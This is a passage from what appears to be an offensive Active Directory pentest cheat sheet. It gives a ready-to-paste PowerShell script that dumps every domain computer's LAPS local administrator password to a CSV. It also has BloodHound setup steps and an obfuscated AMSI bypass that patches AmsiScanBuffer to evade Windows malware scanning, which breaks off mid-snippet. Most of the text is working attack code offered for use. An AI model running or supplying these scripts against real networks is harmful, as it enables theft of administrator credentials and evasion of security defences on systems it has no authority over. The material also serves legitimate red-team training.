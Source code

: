 This script loads the Active Directory module, finds the LAPS password fields, and then saves them to a CSV with the date appended to the file name. The only thing you’d need to change is the file path.

## <span style="color:lightgreen">Exploitation</span>

1. Just Open Powershell and paste this script
```powershell
$Computers = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$Computers | Sort-Object ms-Mcs-AdmPwdExpirationTime | Format-Table -AutoSize Name, DnsHostName, ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$computers | Export-Csv -path c:\temp\"LAPS-$((Get-Date).ToString("MM-dd-yyyy")).csv" -NoTypeInformation
```

2. Then, save it to the location of your choice. For this example, I’m saving to
```console
C:\Scripts\LAPSexport.ps1
```

3. Then, run the script to verify it works correctly. If it does, you should automate this procedure by creating a Scheduled Task.

# BloodHound Enumeration   Need Admin Privs
### Start BloodHound
Start neo4j and BloodHound UI on kali machine and load the zip/json files
```
sudo neo4j console  (credentials neo4j:to0or) | ulimit -n 100000  (if the service didn't work. Warning: max 1024 open files..)  #Get the local address from here
sudo bloodhound   (credentials neo4j:to0or)
```
### Data Collection 
1. Run Invisi-Shell
```
RunWithRegistryNonAdmin.bat
```
2. Bypass .NET AMSI using below code in PowerShell
```
$ZQCUW = @" 
using System; 
using System.Runtime.InteropServices; 
public class ZQCUW { 
    [DllImport("kernel32")] 
    public static extern IntPtr GetProcAddress(IntPtr hModule, string 
procName); 
    [DllImport("kernel32")] 
    public static extern IntPtr LoadLibrary(string name); 
    [DllImport("kernel32")] 
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr 
dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 
"@ 
 
Add-Type $ZQCUW 
 
$BBWHVWQ = 
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115
 ;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, 
"$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97
 ;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
```